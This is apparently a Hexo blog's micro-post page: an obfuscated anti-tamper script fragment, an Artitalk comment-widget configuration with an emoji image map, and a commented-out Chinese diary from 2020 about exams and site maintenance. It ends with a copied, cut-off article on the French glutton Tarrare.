_0x189c55(_0x148841,_0x288dfc){return _0x148841+_0x288dfc;},'mlbty':_0xaa20('0x21','NFZQ'),'QJsje':_0xaa20('0x22','frjG')};_0x5b263e='al';try{_0x5b263e+=_0x38240e[_0xaa20('0x23','(j5l')];_0x300fbc=encode_version;if(!(_0x38240e[_0xaa20('0x24','DPfm')](typeof _0x300fbc,_0x38240e[_0xaa20('0x25','bwj@')])&&_0x38240e['eqeSj'](_0x300fbc,_0x38240e[_0xaa20('0x26','ss9*')]))){if(_0x38240e[_0xaa20('0x27','NFZQ')]('XDz',_0x38240e['lpaVX'])){_0x4f2b0f[_0x5b263e](_0x38240e[_0xaa20('0x28','tfL$')]('删除',_0x38240e['mlbty']));}else{open=![];}}}catch(_0x16c219){_0x4f2b0f[_0x5b263e](_0x38240e[_0xaa20('0x29','[J8U')]);}}(window));;encode_version = 'sojson.v5';	
</script>
<script src="https://cdn.jsdelivr.net/npm/jquery@3.2.1/dist/jquery.min.js"></script>
	{% raw %}
<div id="artitalk_main"></div>
{% endraw %}
<script type="text/javascript" src="https://cdn.jsdelivr.net/npm/artitalk"></script>
<script>
    var appID= window.atob(a56+d789+e12);
    var appKEY= window.atob(b12+c34);
    var per=10;
    var lazy=1;
    var slanguage="zh";
    var atemoji_array={
            "8082.png": "https://rmt.dogedoge.com/fetch/hi-c-oss/storage/8082.png",
            "bx.png": "https://rmt.dogedoge.com/fetch/hi-c-oss/storage/bx.png",
            "c.png": "https://rmt.dogedoge.com/fetch/hi-c-oss/storage/c.png",
            "dhuaji.gif": "https://rmt.dogedoge.com/fetch/hi-c-oss/storage/dhuaji.gif",
            "dy.png": "https://rmt.dogedoge.com/fetch/hi-c-oss/storage/dy.png",
            "fn.gif": "https://rmt.dogedoge.com/fetch/hi-c-oss/storage/fn.gif",
            "fqsk.jpg": "https://rmt.dogedoge.com/fetch/hi-c-oss/storage/fqsk.jpg",
            "h.png": "https://rmt.dogedoge.com/fetch/hi-c-oss/storage/h.png",
            "hjh.png": "https://rmt.dogedoge.com/fetch/hi-c-oss/storage/hjh.png",
            "huaji.gif": "https://rmt.dogedoge.com/fetch/hi-c-oss/storage/huaji.gif",
            "huaji.png": "https://rmt.dogedoge.com/fetch/hi-c-oss/storage/huaji.png",
            "j.png": "https://rmt.dogedoge.com/fetch/hi-c-oss/storage/j.png",
            "k.png": "https://rmt.dogedoge.com/fetch/hi-c-oss/storage/k.png",
            "ld.jpg": "https://rmt.dogedoge.com/fetch/hi-c-oss/storage/ld.jpg",
            "lh.jpg": "https://rmt.dogedoge.com/fetch/hi-c-oss/storage/lh.jpg",
            "lh.png": "https://rmt.dogedoge.com/fetch/hi-c-oss/storage/lh.png",
            "m.png": "https://rmt.dogedoge.com/fetch/hi-c-oss/storage/m.png",
            "qgbf.png": "https://rmt.dogedoge.com/fetch/hi-c-oss/storage/qgbf.png",
            "s.png": "https://rmt.dogedoge.com/fetch/hi-c-oss/storage/s.png",
            "stick_1.png": "https://rmt.dogedoge.com/fetch/hi-c-oss/storage/stick_1.png",
            "stick_10.png": "https://rmt.dogedoge.com/fetch/hi-c-oss/storage/stick_10.png",
            "stick_11.png": "https://rmt.dogedoge.com/fetch/hi-c-oss/storage/stick_11.png",
            "stick_12.png": "https://rmt.dogedoge.com/fetch/hi-c-oss/storage/stick_12.png",
            "stick_13.png": "https://rmt.dogedoge.com/fetch/hi-c-oss/storage/stick_13.png",
            "stick_14.png": "https://rmt.dogedoge.com/fetch/hi-c-oss/storage/stick_14.png",
            "stick_15.png": "https://rmt.dogedoge.com/fetch/hi-c-oss/storage/stick_15.png",
            "stick_16.png": "https://rmt.dogedoge.com/fetch/hi-c-oss/storage/stick_16.png",
            "stick_17.png": "https://rmt.dogedoge.com/fetch/hi-c-oss/storage/stick_17.png",
            "stick_18.png": "https://rmt.dogedoge.com/fetch/hi-c-oss/storage/stick_18.png",
            "stick_19.png": "https://rmt.dogedoge.com/fetch/hi-c-oss/storage/stick_19.png",
            "stick_2.png": "https://rmt.dogedoge.com/fetch/hi-c-oss/storage/stick_2.png",
            "stick_20.png": "https://rmt.dogedoge.com/fetch/hi-c-oss/storage/stick_20.png",
            "stick_21.png": "https://rmt.dogedoge.com/fetch/hi-c-oss/storage/stick_21.png",
            "stick_22.png": "https://rmt.dogedoge.com/fetch/hi-c-oss/storage/stick_22.png",
            "stick_23.png": "https://rmt.dogedoge.com/fetch/hi-c-oss/storage/stick_23.png",
            "stick_24.png": "https://rmt.dogedoge.com/fetch/hi-c-oss/storage/stick_24.png",
            "stick_25.png": "https://rmt.dogedoge.com/fetch/hi-c-oss/storage/stick_25.png",
            "stick_26.png": "https://rmt.dogedoge.com/fetch/hi-c-oss/storage/stick_26.png",
            "stick_27.png": "https://rmt.dogedoge.com/fetch/hi-c-oss/storage/stick_27.png",
            "stick_28.png": "https://rmt.dogedoge.com/fetch/hi-c-oss/storage/stick_28.png",
            "stick_29.png": "https://rmt.dogedoge.com/fetch/hi-c-oss/storage/stick_29.png",
            "stick_3.png": "https://rmt.dogedoge.com/fetch/hi-c-oss/storage/stick_3.png",
            "stick_30.png": "https://rmt.dogedoge.com/fetch/hi-c-oss/storage/stick_30.png",
            "stick_31.png": "https://rmt.dogedoge.com/fetch/hi-c-oss/storage/stick_31.png",
            "stick_32.png": "https://rmt.dogedoge.com/fetch/hi-c-oss/storage/stick_32.png",
            "stick_33.png": "https://rmt.dogedoge.com/fetch/hi-c-oss/storage/stick_33.png",
            "stick_34.png": "https://rmt.dogedoge.com/fetch/hi-c-oss/storage/stick_34.png",
            "stick_35.png": "https://rmt.dogedoge.com/fetch/hi-c-oss/storage/stick_35.png",
            "stick_36.png": "https://rmt.dogedoge.com/fetch/hi-c-oss/storage/stick_36.png",
            "stick_37.png": "https://rmt.dogedoge.com/fetch/hi-c-oss/storage/stick_37.png",
            "stick_38.png": "https://rmt.dogedoge.com/fetch/hi-c-oss/storage/stick_38.png",
            "stick_39.png": "https://rmt.dogedoge.com/fetch/hi-c-oss/storage/stick_39.png",
            "stick_4.png": "https://rmt.dogedoge.com/fetch/hi-c-oss/storage/stick_4.png",
            "stick_40.png": "https://rmt.dogedoge.com/fetch/hi-c-oss/storage/stick_40.png",
            "stick_41.png": "https://rmt.dogedoge.com/fetch/hi-c-oss/storage/stick_41.png",
            "stick_42.png": "https://rmt.dogedoge.com/fetch/hi-c-oss/storage/stick_42.png",
            "stick_43.png": "https://rmt.dogedoge.com/fetch/hi-c-oss/storage/stick_43.png",
            "stick_44.png": "https://rmt.dogedoge.com/fetch/hi-c-oss/storage/stick_44.png",
            "stick_45.png": "https://rmt.dogedoge.com/fetch/hi-c-oss/storage/stick_45.png",
            "stick_46.png": "https://rmt.dogedoge.com/fetch/hi-c-oss/storage/stick_46.png",
            "stick_47.png": "https://rmt.dogedoge.com/fetch/hi-c-oss/storage/stick_47.png",
            "stick_48.png": "https://rmt.dogedoge.com/fetch/hi-c-oss/storage/stick_48.png",
            "stick_49.png": "https://rmt.dogedoge.com/fetch/hi-c-oss/storage/stick_49.png",
            "stick_5.png": "https://rmt.dogedoge.com/fetch/hi-c-oss/storage/stick_5.png",
            "stick_50.png": "https://rmt.dogedoge.com/fetch/hi-c-oss/storage/stick_50.png",
            "stick_51.png": "https://rmt.dogedoge.com/fetch/hi-c-oss/storage/stick_51.png",
            "stick_52.png": "https://rmt.dogedoge.com/fetch/hi-c-oss/storage/stick_52.png",
            "stick_53.png": "https://rmt.dogedoge.com/fetch/hi-c-oss/storage/stick_53.png",
            "stick_54.png": "https://rmt.dogedoge.com/fetch/hi-c-oss/storage/stick_54.png",
            "stick_55.png": "https://rmt.dogedoge.com/fetch/hi-c-oss/storage/stick_55.png",
            "stick_56.png": "https://rmt.dogedoge.com/fetch/hi-c-oss/storage/stick_56.png",
            "stick_57.png": "https://rmt.dogedoge.com/fetch/hi-c-oss/storage/stick_57.png",
            "stick_58.png": "https://rmt.dogedoge.com/fetch/hi-c-oss/storage/stick_58.png",
            "stick_59.png": "https://rmt.dogedoge.com/fetch/hi-c-oss/storage/stick_59.png",
            "stick_6.png": "https://rmt.dogedoge.com/fetch/hi-c-oss/storage/stick_6.png",
            "stick_60.png": "https://rmt.dogedoge.com/fetch/hi-c-oss/storage/stick_60.png",
            "stick_61.png": "https://rmt.dogedoge.com/fetch/hi-c-oss/storage/stick_61.png",
            "stick_62.png": "https://rmt.dogedoge.com/fetch/hi-c-oss/storage/stick_62.png",
            "stick_63.png": "https://rmt.dogedoge.com/fetch/hi-c-oss/storage/stick_63.png",
            "stick_64.png": "https://rmt.dogedoge.com/fetch/hi-c-oss/storage/stick_64.png",
            "stick_65.png": "https://rmt.dogedoge.com/fetch/hi-c-oss/storage/stick_65.png",
            "stick_66.png": "https://rmt.dogedoge.com/fetch/hi-c-oss/storage/stick_66.png",
            "stick_67.png": "https://rmt.dogedoge.com/fetch/hi-c-oss/storage/stick_67.png",
            "stick_68.png": "https://rmt.dogedoge.com/fetch/hi-c-oss/storage/stick_68.png",
            "stick_69.png": "https://rmt.dogedoge.com/fetch/hi-c-oss/storage/stick_69.png",
            "stick_7.png": "https://rmt.dogedoge.com/fetch/hi-c-oss/storage/stick_7.png",
            "stick_70.png": "https://rmt.dogedoge.com/fetch/hi-c-oss/storage/stick_70.png",
            "stick_71.png": "https://rmt.dogedoge.com/fetch/hi-c-oss/storage/stick_71.png",
            "stick_72.png": "https://rmt.dogedoge.com/fetch/hi-c-oss/storage/stick_72.png",
            "stick_73.png": "https://rmt.dogedoge.com/fetch/hi-c-oss/storage/stick_73.png",
            "stick_74.png": "https://rmt.dogedoge.com/fetch/hi-c-oss/storage/stick_74.png",
            "stick_75.png": "https://rmt.dogedoge.com/fetch/hi-c-oss/storage/stick_75.png",
            "stick_76.png": "https://rmt.dogedoge.com/fetch/hi-c-oss/storage/stick_76.png",
            "stick_77.png": "https://rmt.dogedoge.com/fetch/hi-c-oss/storage/stick_77.png",
            "stick_78.png": "https://rmt.dogedoge.com/fetch/hi-c-oss/storage/stick_78.png",
            "stick_79.png": "https://rmt.dogedoge.com/fetch/hi-c-oss/storage/stick_79.png",
            "stick_8.png": "https://rmt.dogedoge.com/fetch/hi-c-oss/storage/stick_8.png",
            "stick_80.png": "https://rmt.dogedoge.com/fetch/hi-c-oss/storage/stick_80.png",
            "stick_81.png": "https://rmt.dogedoge.com/fetch/hi-c-oss/storage/stick_81.png",
            "stick_9.png": "https://rmt.dogedoge.com/fetch/hi-c-oss/storage/stick_9.png",
            "tx.png": "https://rmt.dogedoge.com/fetch/hi-c-oss/storage/tx.png",
            "wc.jpg": "https://rmt.dogedoge.com/fetch/hi-c-oss/storage/wc.jpg",
            "whks.png": "https://rmt.dogedoge.com/fetch/hi-c-oss/storage/whks.png",
            "wjlkdhxs.jpg": "https://rmt.dogedoge.com/fetch/hi-c-oss/storage/wjlkdhxs.jpg",
            "xy.png": "https://rmt.dogedoge.com/fetch/hi-c-oss/storage/xy.png",
            "yhuaji.png": "https://rmt.dogedoge.com/fetch/hi-c-oss/storage/yhuaji.png",
            "zcbg.jpg": "https://rmt.dogedoge.com/fetch/hi-c-oss/storage/zcbg.jpg",
            "zhuaji.png": "https://rmt.dogedoge.com/fetch/hi-c-oss/storage/zhuaji.png",
            "不出所料.png": "https://rmt.dogedoge.com/fetch/hi-c-oss/storage/不出所料.png",
            "不说话.png": "https://rmt.dogedoge.com/fetch/hi-c-oss/storage/不说话.png",
            "不高兴.png": "https://rmt.dogedoge.com/fetch/hi-c-oss/storage/不高兴.png",
            "中刀.png": "https://rmt.dogedoge.com/fetch/hi-c-oss/storage/中刀.png",
            "中指.png": "https://rmt.dogedoge.com/fetch/hi-c-oss/storage/中指.png",
            "中枪.png": "https://rmt.dogedoge.com/fetch/hi-c-oss/storage/中枪.png",
            "亲亲.png": "https://rmt.dogedoge.com/fetch/hi-c-oss/storage/亲亲.png",
            "便便.png": "https://rmt.dogedoge.com/fetch/hi-c-oss/storage/便便.png",
            "内伤.png": "https://rmt.dogedoge.com/fetch/hi-c-oss/storage/内伤.png",
            "击掌.png": "https://rmt.dogedoge.com/fetch/hi-c-oss/storage/击掌.png",
            "口吐芳言.jpg": "https://rmt.dogedoge.com/fetch/hi-c-oss/storage/口吐芳言.jpg",
            "口水.png": "https://rmt.dogedoge.com/fetch/hi-c-oss/storage/口水.png",
            "吐.png": "https://rmt.dogedoge.com/fetch/hi-c-oss/storage/吐.png",
            "吐舌.png": "https://rmt.dogedoge.com/fetch/hi-c-oss/storage/吐舌.png",
            "吐血倒地.png": "https://rmt.dogedoge.com/fetch/hi-c-oss/storage/吐血倒地.png",
            "呲牙.png": "https://rmt.dogedoge.com/fetch/hi-c-oss/storage/呲牙.png",
            "咽气.png": "https://rmt.dogedoge.com/fetch/hi-c-oss/storage/咽气.png",
            "哭泣.png": "https://rmt.dogedoge.com/fetch/hi-c-oss/storage/哭泣.png",
            "喜极而泣.png": "https://rmt.dogedoge.com/fetch/hi-c-oss/storage/喜极而泣.png",
            "喷水.png": "https://rmt.dogedoge.com/fetch/hi-c-oss/storage/喷水.png",
            "喷血.png": "https://rmt.dogedoge.com/fetch/hi-c-oss/storage/喷血.png",
            "坐等.png": "https://rmt.dogedoge.com/fetch/hi-c-oss/storage/坐等.png",
            "害羞.png": "https://rmt.dogedoge.com/fetch/hi-c-oss/storage/害羞.png",
            "小眼睛.png": "https://rmt.dogedoge.com/fetch/hi-c-oss/storage/小眼睛.png",
            "尴尬.png": "https://rmt.dogedoge.com/fetch/hi-c-oss/storage/尴尬.png",
            "得意.png": "https://rmt.dogedoge.com/fetch/hi-c-oss/storage/得意.png",
            "惊喜.png": "https://rmt.dogedoge.com/fetch/hi-c-oss/storage/惊喜.png",
            "想一想.png": "https://rmt.dogedoge.com/fetch/hi-c-oss/storage/想一想.png",
            "愤怒.png": "https://rmt.dogedoge.com/fetch/hi-c-oss/storage/愤怒.png",
            "扇耳光.png": "https://rmt.dogedoge.com/fetch/hi-c-oss/storage/扇耳光.png",
            "投降.png": "https://rmt.dogedoge.com/fetch/hi-c-oss/storage/投降.png",
            "抠鼻.png": "https://rmt.dogedoge.com/fetch/hi-c-oss/storage/抠鼻.png",
            "抽烟.png": "https://rmt.dogedoge.com/fetch/hi-c-oss/storage/抽烟.png",
            "无奈.png": "https://rmt.dogedoge.com/fetch/hi-c-oss/storage/无奈.png",
            "无所谓.png": "https://rmt.dogedoge.com/fetch/hi-c-oss/storage/无所谓.png",
            "无语.png": "https://rmt.dogedoge.com/fetch/hi-c-oss/storage/无语.png",
            "暗地观察.png": "https://rmt.dogedoge.com/fetch/hi-c-oss/storage/暗地观察.png",
            "期待.png": "https://rmt.dogedoge.com/fetch/hi-c-oss/storage/期待.png",
            "欢呼.png": "https://rmt.dogedoge.com/fetch/hi-c-oss/storage/欢呼.png",
            "汗.png": "https://rmt.dogedoge.com/fetch/hi-c-oss/storage/汗.png",
            "深思.png": "https://rmt.dogedoge.com/fetch/hi-c-oss/storage/深思.png",
            "狂汗.png": "https://rmt.dogedoge.com/fetch/hi-c-oss/storage/狂汗.png",
            "献花.png": "https://rmt.dogedoge.com/fetch/hi-c-oss/storage/献花.png",
            "献黄瓜.png": "https://rmt.dogedoge.com/fetch/hi-c-oss/storage/献黄瓜.png",
            "皱眉.png": "https://rmt.dogedoge.com/fetch/hi-c-oss/storage/皱眉.png",
            "看不见.png": "https://rmt.dogedoge.com/fetch/hi-c-oss/storage/看不见.png",
            "看热闹.png": "https://rmt.dogedoge.com/fetch/hi-c-oss/storage/看热闹.png",
            "瞅你.png": "https://rmt.dogedoge.com/fetch/hi-c-oss/storage/瞅你.png",
            "肿包.png": "https://rmt.dogedoge.com/fetch/hi-c-oss/storage/肿包.png",
            "脸红.png": "https://rmt.dogedoge.com/fetch/hi-c-oss/storage/脸红.png",
            "蜡烛.png": "https://rmt.dogedoge.com/fetch/hi-c-oss/storage/蜡烛.png",
            "装大款.png": "https://rmt.dogedoge.com/fetch/hi-c-oss/storage/装大款.png",
            "观察.png": "https://rmt.dogedoge.com/fetch/hi-c-oss/storage/观察.png",
            "赞一个.png": "https://rmt.dogedoge.com/fetch/hi-c-oss/storage/赞一个.png",
            "邪恶.png": "https://rmt.dogedoge.com/fetch/hi-c-oss/storage/邪恶.png",
            "邪魅一笑.jpg": "https://rmt.dogedoge.com/fetch/hi-c-oss/storage/邪魅一笑.jpg",
            "锁眉.png": "https://rmt.dogedoge.com/fetch/hi-c-oss/storage/锁眉.png",
            "长草.png": "https://rmt.dogedoge.com/fetch/hi-c-oss/storage/长草.png",
            "阴暗.png": "https://rmt.dogedoge.com/fetch/hi-c-oss/storage/阴暗.png",
            "高兴.png": "https://rmt.dogedoge.com/fetch/hi-c-oss/storage/高兴.png",
      }
</script>





<!--
# 原因：

Hexo作为静态博客 ~~唯一~~ 的问题就是不想静态博客那样快捷的发牢骚,如果作为博文又搞得博客像怨妇篇一样,所以干脆新建了这个文档.
<details>
<summary> -2020</summary>
 
 <details>
<summary> --奇妙的七月</summary>

#### ---2日
 
泪目了，破解Xuehai平板被抓了，哭了哭了 ![](https://img.cyfan.top/pic/moji/stick_60.png) 
 
</details>
 
<details>
<summary> --<span class="heimu">蕉</span>焦灼的六月</summary>

### ---29日

眼睛瞎了看不见？~~意大利炮轰眼睛！~~

额咳咳，那么你可以看到，在最近的一篇文章里，图片被压缩的惨不忍睹。

然而这有必要，因为自从我把一张5MB的图片有损压缩80%后，正常看上去几乎不便，大小只有50kb。

不过呢,正常情况下以后不会压那么狠了，正常图片压缩成原来的60%，头图压缩成80%，这样既节省空间也方便加载。

之所以不用webp,是因为我用的LazyLoad与webp不兼容;嗯.

GoogleAdsense通过了【我的天哪，提交了将近4个月才过审】，不过放心，我也很厌烦那种一大堆广告铺天盖地的，我的广告只有一个，蜗居在评论框下面，并且采用懒加载，完全不会拖慢加载速度。

Google分析报告指出js拖速度导致字体显示慢。 `font-disply` 据说不错,就剩下一天了,明天就去学校了,今天把这个解决.

CloudFlare的 `Rocket-Loader` 可以优化js,但是链接不是本站 `/cdn-cgi` ,而是 `ajax.cloudflare.com` ,这让我直接打消这个念头 


### ---28日

有必要对图片进行压缩了。

刚才试了一下PicGo中的 `picgo-plugin-sharp` 效果十分显著，一张4MB的jpg图片压成Webp之后就只有300kb，而且图片质量几乎不变。

Google分析也很明确指出了,图片太大是得分低的最主要原因：

![](https://img.cyfan.top/pic/postpic/20200628101723.JPG)

~~好在PicGo有这样一插件，以牺牲不到2s的CPU时间换来访客的舒适度还是很划算的。~~

然而比较恼火，ios的Safari中如果有懒加载，webp就会加载不出来，而jpg可以，这就很人类疑惑行为。最终采用了tinyjpg和Caesium压缩。

### ---27日

中考考完了<img src="https://img.cyfan.top/pic/moji/%E9%95%BF%E8%8D%89.png">，忙里偷闲对网站做了很多小更改，比较大的如

- 修改IPFS快速上传与镜像二合一
- 建立CDN介绍页面
- 通过CloudFlareCDNAPI几乎无耗时获取用户侧信息
- 将博客部署成 `travis-ci` ，实现在线更新博客<span class="heimu">省得在学校无法更新博客</span>.[然而比较令人难堪的是，博客nodejs拓展特别多，git上传了将近一个小时，不过接下来更新博客就不用那么麻烦了]<img src="https://travis-ci.com/ChenYFan/blog.svg?branch=master">【以及CloudFlare缓存更新速度有点难堪】

过几天在扯吧，现在回去潜水了<img src="https://img.cyfan.top/pic/moji/huaji.gif">

其实也是方便了我在手机端进行修改，额，不过手机端打字确实不是很舒服，还是电脑为主力。

</details>
<details>
<summary> --痛苦的五月</summary>

#### ---23日

~~WTM~~，GoogleDrive如果用GDindex，正常下载大文件或视频也就算了，下载一个2MB的文件居然要杀毒！神奇算法居然一次杀毒要10秒！！！更令人666的是，大文件不杀毒，小文件杀的的飞起！没杀完直接给404？！？！
最让我无语的是，这个功能取消不了...<img src="https://img.cyfan.top/pic/moji/lh.jpg">
这就导致在16-23日间博客图片迟迟打不开的原因
Workers更是在后台爆异常，严重拖慢了速度。
<img src="https://img.cyfan.top/pic/post/pasted-205.png" height=45% width=45%>
简称：脑阔疼。

目前所有图片已迁移至OneDrive，自己下载速度大概有500kb/s，用的是ODM搭建与Tencent的SCF，好像OneDrive也就5GB，要求不大，能拿来图床就行了，反正视频照样走GDrive。

因为获取到后就直接走302跳转到微软直链下载，效率是差了点，不过比走GDrive（20s）或Github（12s），平均下来只要6s就够了，小图片秒开，况且OneDrive可以映射在Windows里成为一个硬盘，正常做图床还方便修改，足够了。

SCF的收费相当良心，前面免费额度估计是用不完的，反正我又不是拿来做网盘，就是个图床，能走40万GBs100万次，对于我这个小博主来说，基本不太可能，当然，各位大侠手下留情，我似乎没招惹什么人吧。
<img src="https://img.cyfan.top/pic/post/pasted-205.jpg" height=45% width=45%>

换图床的好处就是大大减少了走Githubpages流量，因为我整个博客不带图片只有15MB，可以算作轻巧了。

不过脑子一抽把SCF选到硅谷去了，欸欸欸，下次有空再换到东京香港吧，下周期中考试过了先。



#### ---16日

一个月下来，感觉和池里头那几头大王八一样，整天划水摸鱼。
啊啊啊啊啊啊，29号期中考试啊啊啊啊，我摸鱼的日子又要到头了么？
还有因为疫情原因，我的创新班暑假就放一星期！！！啊啊啊啊啊啊哭了哭了，感觉我要无限拖更了呜呜呜。
我要死了呜呜呜呜呜。
趁死之前把图床换到GoogleDrive直链网盘上，省得走Github和CloudFlare速度太慢了，还浪费Github空间，以下是截图：
替换图床前：
<img src="https://img.cyfan.top/pic/post/pasted-196.jpg" height=45% width=45%>
<img src="https://img.cyfan.top/pic/post/pasted-197.jpg" height=45% width=45%>
<img src="https://img.cyfan.top/pic/post/pasted-198.jpg" height=45% width=45%>
<img src="https://img.cyfan.top/pic/post/pasted-199.jpg" height=45% width=45%>
替换图床后：
<img src="https://img.cyfan.top/pic/post/pasted-200.jpg" height=45% width=45%>
<img src="https://img.cyfan.top/pic/post/pasted-201.jpg" height=45% width=45%>
<img src="https://img.cyfan.top/pic/post/pasted-202.jpg" height=45% width=45%>
<img src="https://img.cyfan.top/pic/post/pasted-203.jpg" height=45% width=45%>
 
我地妈呀，我居然有这么多图片！！！
<img src="https://img.cyfan.top/pic/post/pasted-204.jpg" height=45% width=45%>
幸好早点迁移过来了，(*≧︶≦))(￣▽￣* )ゞ
以后上传走Workers，至少不要走Github就行。


#### ---1日

累累累累，高中生活丰富多彩，五一长假日日忙碌。
求是楼[1]，求是楼，一跃解千愁，问君能有几多愁，恰似一江春水向东流。

[1]求是楼:温中最高的建筑,17层+一天线,目测高度将近100m.
</details>
<details>
<summary> --愚人的四月</summary>

#### ---11日


<img src="https://img.cyfan.top/pic/post/pasted-194.png" height=45% width=45%>

这下连个<kbd>忽略警告，继续访问</kbd>也没有了（つ﹏⊂）


#### ---2日

脑子好多了，就不鸽了，继续<span class="heimu">瞎几把</span>乱扯.

#### ---1日

生病了，不是新冠，就是作死外出淋了雨，感冒了，不咳嗽，有一点点发烧（37.7°C），头痛【一走路就感觉脑壳要裂开了】，手臂疼，手脚冰凉【别说我有没有肺炎，我现在咳都不咳，一咳就脑壳疼】，老是出冷汗，身体不适，博客暂停3天。

今天是愚人节，但我真的没心情和大家开玩笑，谢谢大家体谅。停更期间依旧会回复和添加友链，只不过时间没这么快了，谢谢大家体谅。
</details>
<details>
<summary> --中二的三月</summary>

#### ---23日
<details>
<summary> 塔拉里的故事（源自wikipedia特色词条）</summary>
出生	约1772年

逝世	1798年（约26岁）

职业	军人、街头艺人

塔拉里（法语：Tarrare或Tarare，约1772年－1798年）是位法国军人和艺人，以异乎寻常的饮食习惯闻名。他总是饥肠辘辘，能够吃下海量的肉类。由于父母实在供养不起，所以他十几岁时就离开了家。他与一帮小偷和妓女走遍法国，以招摇撞骗为生。他能吞下软木塞、石头、活的动物，以及满满一篮苹果。凭着这样的“技艺”，塔拉里到达巴黎，成为街头艺人。

第一次反法同盟建立后，塔拉里加入法国革命军。由于军粮无法满足胃口，他会吃掉排水沟甚至垃圾堆中能够找到的任何食物，但即便如此，他的情况还是随饥饿恶化。精疲力尽之下，塔拉里住进医院，工作人员开展一系列医学实验来研究他的食量。在此期间，他一顿就能吃掉15人量的食物，还吃掉了活猫、活蛇、活蜥蜴和小狗，甚至根本没嚼一口就吞掉一条鳗鱼。虽然食量惊人，但塔拉里的体型正常，而且除精神萎靡外也没有表现出任何精神类疾病迹象。

亚历山大·德·博阿尔内将军打算充分利用塔拉里的“才能”充当法国军队信使，先让他吞下文件，穿过敌军战线到达安全地点后再把文件从粪便中拉出来。不幸的是，塔拉里不会说德语，首次上路就被普鲁士军队所擒，受尽折磨后才回到法国军队。

经历这次教训后，塔拉里决定采取任何手段纠正自己的食欲问题，先后服用鸦片酊、烟丸、葡萄醋和水煮蛋。但这些治疗都以失败告终。医生无法让他控制饮食，饥饿的塔拉里会设法溜出医院，在水沟、垃圾堆以及屠夫的商店外搜寻下水，甚至意图喝下医院中其他病人的血，或是吃掉太平间的尸体。院方怀疑他吃掉了一个孩子，因此将塔拉里赶了出去。四年后，他出现在凡尔赛镇，患上严重的肺结核，之后又患上严重腹泻，于不久后去世。

# 童年和早期经历
1772年前后，塔拉里生于法国里昂附近的乡间[1][2][注 1]，具体出生日期已无从考证，甚至连“塔拉里”到底是其真名还是绰号都已无法确定[3]。

塔拉里从小胃口惊人，十几岁时，他已经能够在一天里吃掉四分之一头牛，重量几乎和他本人一样[4][5]。父母实在供养不起，只能把他赶出家门[1][6]。此后几年里，他跟随一帮窃贼和妓女走遍全国[7]，通过乞讨和偷窃获取食物[1]，之后成为职业骗子，在法国各地招摇撞骗为生[6][8]。塔拉里吃瓶塞、石头和活动物的举动吸引他人驻足观看，他还一个接一个大口吞掉整篮苹果[1][6]。他吃起食物来狼吞虎咽，特别喜欢吃蛇肉[2][8]。

1788年，塔拉里来到巴黎，成为街头艺人[6]。这段时间他的事业总体还算成功，但也有一次因表演过程中出现问题患上严重的肠梗阻[6]。围观的众人将他抬到医院，接受强力泻药治疗[6]。完全康复后，塔拉里提议现场表演，自称能吃掉医生的怀表和表链，吉罗（M. Giraud）医生对此不为所动，并警告塔拉里，如果真吃掉这些东西，自己就会把他剖开取回[6][8]。

# 外貌和行为
虽然食量异常之大，但塔拉里身型苗条、体重适中[9]。17岁时，他的体重只有45公斤[1][5]。据称，他有一头异常柔软的金发，嘴巴特别宽，一口牙齿严重变色[9]，几乎都看不出来哪里是嘴唇[10][11]。如果没有吃东西，他的皮肤会非常松弛，甚至可以把腹部的皮肤在腰部卷起来[9][10]。吃饱后，他的腹部会胀大得“像个巨大的气球”[6]。他脸颊的皮肤也很松弛，皱巴巴地挂在脸上，他可以在嘴里放进苹果或12个鸡蛋，这时脸上的皮肤才会完全伸展开来[11][12]。他的体温总是很高，大汗淋漓，而且一直散发出狐臭[9][11]，根据记载，塔拉里的狐臭非常严重，他人只要走到20步以内就无法忍受[11]。同时这种体臭还会在他进食后加剧[10][11]，他的眼睛和脸颊会布满血丝[9]，别人还能看到他身上散发出蒸汽[11]。他还会变得昏昏欲睡，睡觉期间会大声打嗝，下巴还有吞咽动作[11]。他还患有慢性腹泻，据称排便“臭到超乎所有人的想象”[11]。虽大量摄入食物，但塔拉里并不会经常呕吐，体重也没有显著增长[13]。在他人眼里，塔拉里除食量惊人外没有明显的精神疾病或异常行为迹象[13]，只不过精神上较为萎靡不振而已[11][14]。

造成塔拉里食量如此之大的原因尚不清楚。虽然这一时期也存在其他类似行为的记录，但没有任何一起记录下来的现代多食症案例像他这样极端，而且除塔拉里外，也没有任何同时期病人死后有过验尸[15]。甲状腺功能亢进症可能诱发极大的食欲和体重快速下降，有专家推测，塔拉里的症状可能是因杏仁核或腹内侧核受损而导致，已知动物在伤及杏仁核或腹内侧核时会引发多食症[16]。

# 军旅生涯
第一次反法同盟建立后，塔拉里加入法国革命军[4][6]。不幸的是，军粮也无法满足他的胃口[6]。他会和战友一起外出执行任务，获得他人的口粮为回报，并在垃圾堆里寻找残羹剩饭[5]，但还是吃不饱[1]。精疲力尽的他被送进上莱茵省苏茨-上莱茵的部队医院[1]。虽然一人独得四人份口粮，但塔拉里还是饿得慌[8]，水槽或垃圾箱中的食物残渣他都不会放过[6]，还会吃掉其他病人吃剩的食物[1]，甚至潜入药剂师的房间偷吃膏药[1]。军医无法理解他何以会有如此之大的胃口，军队命令塔拉里留在部队医院，接受第九轻骑兵团外科医生考维尔（Dr. Courville[注 2]）、乔治·迪迪埃（George Didier），以及医院外科主任佩尔西男爵（Baron Percy）设计的生理学实验。[6]

“在他面前，猫和狗都落荒而逃，仿佛都意识到了他在准备要让它们迎接怎样的命运。”[9]

# 佩尔西男爵
考维尔和佩尔西决定检验塔拉里到底能吃掉多少食物。他们安排医院大门旁准备15名劳工分量的膳食，通常来说医院工作人员不会让塔拉里走到食物跟前，但这次考维尔允许病人不受他人干扰地走到台前[6]。塔拉里吃掉了整整两个大肉饼，几盘油脂和盐，还喝掉了15.14升牛奶，然后马上就倒头大睡[2][17]。考维尔发现，塔拉里的腹部膨胀起来并且绷紧，就像个大气球[6][17]。另一次测试是在他面前放了只活猫。塔拉里用牙齿撕开猫的腹部，先是喝掉血液，然后把除骨头外的整只猫都吃了下去，再把皮毛和皮肤呕吐出来[2][8]。此后，医院工作人员尝试过多种动物，如蛇、蜥蜴和小狗等，全被他吞下肚[9]，他还曾用牙齿咬碎鳗鱼的头，然后整条吞下肚[2]。

# 军队信使
